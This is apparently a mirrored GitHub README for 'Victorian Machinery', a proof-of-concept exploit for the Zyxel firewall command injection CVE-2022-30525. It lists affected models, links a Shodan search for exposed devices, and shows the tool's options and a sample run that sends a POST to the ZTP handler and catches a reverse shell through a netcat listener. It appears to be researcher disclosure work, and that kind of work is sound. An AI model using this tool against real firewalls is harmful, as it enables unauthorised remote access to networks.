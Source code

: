 # victorian_machinery

Proof of concept exploit for CVE-2022-30525 (Zxyel firewall command injection)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/jbaines-r7](https://github.com/jbaines-r7) |
| Url      | [https://github.com/jbaines-r7/victorian_machinery](https://github.com/jbaines-r7/victorian_machinery)                                               |
| Stars    | 30                                                          |
| License  | BSD 3-Clause "New" or "Revised" License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2022-30525* exploit* poc* zyxel

</details>

## Readme

# Victorian Machinery

Victorian Machinery is a proof of concept exploit for CVE-2022-30525. The vulnerability is an unauthenticated and remote command injection vulnerability affecting Zyxel firewall's that support zero touch provisioning. Zyxel pushed a fix for this issue on April 28, 2022. The following models are known to be affected:

* USG FLEX 100, 100W, 200, 500, 700
* ATP 100, 200, 500, 700, 800
* USG20-VPN and USG20w-VPN

At the time of writing, there were more than [16,000](https://www.shodan.io/search?query=title%3A%22USG+FLEX+100%22%2C%22USG+FLEX+100w%22%2C%22USG+FLEX+200%22%2C%22USG+FLEX+500%22%2C%22USG+FLEX+700%22%2C%22USG+FLEX+50%22%2C%22USG+FLEX+50w%22%2C%22ATP100%22%2C%22ATP200%22%2C%22ATP500%22%2C%22ATP700%22) affected devices visible on Shodan. Exposing the management web interface *is not* the default setting, which implies there are many more affected systems not exposed to the internet. These systems also support automatic update (not enabled by default) so a good subset are already patched against this issue.

## PoC Video

https://youtu.be/x8Vzq9tm47c

## Options

Victorian Machinery expliots the target and catches a reverse shell using a forked `nc` listener. This was tested on Ubuntu 20.04. The PoC tries to execute `/usr/bin/nc` by default. If your `nc` is somewhere else than you'll need to update the `nc-path` option. See the complete help menu below:

```sh
albinolobster@ubuntu:~/victorian_machinery$ python3 victorian_machinery.py --help

$\    $\ $\             $\                         $\                             
$ |   $ |\__|            $ |                        \__|                            
$ |   $ |$\  $$$$\ $$$\    $$$\   $$$\  $\  $$$\  $$$$\          
\$\  $  |$ |$  _____|\_$  _|  $  __$\ $  __$\ $ | \____$\ $  __$\         
 \$\$  / $ |$ /        $ |    $ /  $ |$ |  \__|$ | $$$$ |$ |  $ |        
  \$$  /  $ |$ |        $ |$\ $ |  $ |$ |      $ |$  __$ |$ |  $ |        
   \$  /   $ |\$$$$\   \$$  |\$$$  |$ |      $ |\$$$$ |$ |  $ |        
$\ \_/  $\__| \_______|   \____$\______$\__|      \__| \_______|\__|  \__|        
$$\    $$ |                    $ |      \__|                                        
$$\  $$ | $$$\   $$$$\ $$$$\  $\ $$$$\   $$$\   $$$\  $\   $\ 
$\$\$ $ | \____$\ $  _____|$  __$\ $ |$  __$\ $  __$\ $  __$\ $ |  $ |
$ \$$  $ | $$$$ |$ /      $ |  $ |$ |$ |  $ |$$$$ |$ |  \__|$ |  $ |
$ |\$  /$ |$  __$ |$ |      $ |  $ |$ |$ |  $ |$   ____|$ |      $ |  $ |
$ | \_/ $ |\$$$$ |\$$$$\ $ |  $ |$ |$ |  $ |\$$$$\ $ |      \$$$$ |
\__|     \__| \_______| \_______|\__|  \__|\__|\__|  \__| \_______|\__|       \____$ |
                                                                             $\   $ |
                                  ⚙ jbaines-r7                              \$$$  |
                                 CVE-2022-30525                              \______/ 
                                       🦞                                             

usage: victorian_machinery.py [-h] --rhost RHOST [--rport RPORT] --lhost LHOST [--lport LPORT] [--protocol PROTOCOL] [--nc-path NCPATH]

Zyxel Firewall Command Injection (CVE-2022-30525)

optional arguments:
  -h, --help           show this help message and exit
  --rhost RHOST        The remote address to exploit
  --rport RPORT        The remote port to exploit
  --lhost LHOST        The local address to connect back to
  --lport LPORT        The local port to connect back to
  --protocol PROTOCOL  The protocol handler to use
  --nc-path NCPATH     The path to nc

```

## Example Usage

```sh
albinolobster@ubuntu:~/victorian_machinery$ python3 victorian_machinery.py --rhost 10.0.0.14 --lhost 10.0.0.28

$\    $\ $\             $\                         $\                             
$ |   $ |\__|            $ |                        \__|                            
$ |   $ |$\  $$$$\ $$$\    $$$\   $$$\  $\  $$$\  $$$$\          
\$\  $  |$ |$  _____|\_$  _|  $  __$\ $  __$\ $ | \____$\ $  __$\         
 \$\$  / $ |$ /        $ |    $ /  $ |$ |  \__|$ | $$$$ |$ |  $ |        
  \$$  /  $ |$ |        $ |$\ $ |  $ |$ |      $ |$  __$ |$ |  $ |        
   \$  /   $ |\$$$$\   \$$  |\$$$  |$ |      $ |\$$$$ |$ |  $ |        
$\ \_/  $\__| \_______|   \____$\______$\__|      \__| \_______|\__|  \__|        
$$\    $$ |                    $ |      \__|                                        
$$\  $$ | $$$\   $$$$\ $$$$\  $\ $$$$\   $$$\   $$$\  $\   $\ 
$\$\$ $ | \____$\ $  _____|$  __$\ $ |$  __$\ $  __$\ $  __$\ $ |  $ |
$ \$$  $ | $$$$ |$ /      $ |  $ |$ |$ |  $ |$$$$ |$ |  \__|$ |  $ |
$ |\$  /$ |$  __$ |$ |      $ |  $ |$ |$ |  $ |$   ____|$ |      $ |  $ |
$ | \_/ $ |\$$$$ |\$$$$\ $ |  $ |$ |$ |  $ |\$$$$\ $ |      \$$$$ |
\__|     \__| \_______| \_______|\__|  \__|\__|\__|  \__| \_______|\__|       \____$ |
                                                                             $\   $ |
                                  ⚙ jbaines-r7                              \$$$  |
                                 CVE-2022-30525                              \______/ 
                                       🦞                                             

[+] Executing netcat listener
[+] Using /usr/bin/nc
Listening on 0.0.0.0 1270
[+] Sending a POST request to https://10.0.0.14:443/ztp/cgi-bin/handler
Connection received on 10.0.0.14 43957
bash: cannot set terminal process group (10800): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ id
id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
```

## Credit

* [Red Hot Chili Peppers](https://www.youtube.com/watch?v=o-4Fo-gJnXU)



## Get the content

```
git clone https://github.com/jbaines-r7/victorian_machinery
cd victorian_machinery
```

{% embed url="https://github.com/jbaines-r7/victorian_machinery" %}

<figure><img src="https://avatars.githubusercontent.com/u/91965877?v=4" alt=""><figcaption><p>jbaines-r7</p></figcaption></figure>
